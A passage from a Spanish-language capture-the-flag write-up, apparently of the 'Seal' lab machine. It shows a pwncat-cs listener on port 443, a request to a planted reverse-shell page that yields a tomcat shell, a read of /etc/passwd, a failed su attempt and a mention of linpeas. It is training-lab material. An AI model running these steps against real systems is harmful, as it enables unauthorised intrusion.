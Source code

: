 
Ahora simplemente nos ponemos en escucha con `pwncat-cs` por el puerto 443.
```console
$ sudo pwncat-cs -lp 443
```

Y accedemos a `https://seal.htb/revshell/`
![Write-up Image](images/Screenshot_18.png)

Y vemos que ganamos acceso a la máquina.
```console
(remote) tomcat@seal:/var/lib/tomcat9$ whoami
tomcat
```

# User Pivoting

Vemos al usuario `luis`
```console
(remote) tomcat@seal:/var/lib/tomcat9$ cat /etc/passwd | grep bash
root:x:0:0:root:/root:/bin/bash
luis:x:1000:1000:,,,:/home/luis:/bin/bash
```

Podemos probar la credencial que tenemos para `luis` pero no hay suerte.
```console
(remote) tomcat@seal:/var/lib/tomcat9$ su luis
Password: 
su: Authentication failure
```

Al pasar el `linpeas.sh` vemos lo siguiente.
